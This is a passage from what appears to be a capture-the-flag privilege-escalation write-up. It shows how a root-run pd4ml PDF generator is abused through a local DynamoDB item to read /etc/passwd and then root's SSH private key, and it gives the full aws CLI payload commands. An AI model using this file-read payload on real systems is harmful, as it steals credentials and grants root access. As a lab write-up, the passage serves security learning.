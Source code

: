 ### 3. Exploit the PDF generation

Cool, so now we have the PDF generation working, we just need to find a way to exploit it. Keeping in mind that this was generated with root permissions I thought that we should be able to include local files through some `pd4ml` special syntax. Following <https://pd4ml.com/cookbook/pdf-attachments.htm> I got `<pd4ml:attachment src="file:/etc/passwd" description="attachment sample"/>` and added it to the data attribute:

```
aws dynamodb put-item --table-name alerts --item '{"title": {"S": "Ransomware"}, "data": {"S": "<pd4ml:attachment src=\"file:/etc/passwd\" description=\"attachment sample\"/>"}}' --endpoint-url http://127.0.0.1:4566
```

Note that we need to escape double quotes. I generated the PDF and after running strings the file contents were there!

*Local file read as root*

![Img](images/privesc13.png)

To get a root shell I included `/root/.ssh/id_rsa` instead to get the root user private SSH key. Now, I needed to generate the table each time so I just combined the two commands in a one-liner:

```
aws dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S --key-schema AttributeName=title,KeyType=HASH --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5 --endpoint-url http://127.0.0.1:4566 \
&& aws dynamodb put-item --table-name alerts --item '{"title": {"S": "Ransomware"}, "data": {"S": "<pd4ml:attachment src=\"file:/root/.ssh/id_rsa\" description=\"attachment sample\"/>"}}' --endpoint-url http://127.0.0.1:4566
```

*Getting root's private key*
